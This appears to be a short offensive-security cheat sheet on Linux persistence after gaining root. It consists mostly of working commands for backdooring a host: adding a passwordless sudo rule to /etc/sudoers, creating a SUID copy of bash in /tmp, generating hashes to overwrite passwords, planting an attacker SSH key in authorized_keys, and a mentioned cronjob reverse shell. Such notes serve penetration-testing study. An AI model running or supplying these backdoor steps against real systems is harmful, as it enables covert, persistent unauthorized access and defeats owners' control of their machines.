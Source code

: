 # linux - persistence

## Root

- Once obtained root, create administrative backdoors using

```shell
# give sudo access
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```shell
# give SUID set bash executable
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

```shell
# overwrite passwords
openssl passwd root
```

## SSH

- Check for the existence of a private key in `~/.ssh/id_rsa`.

- Generate your own SSH key using this [tutorial](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```shell
ssh-keygen -t ed25519 -C "your_email@example.com"
```

- Upload public key of SSH key pair to `authorized_keys_file`.

## Cronjob

- Set up cronjob that establishes reverse shell
 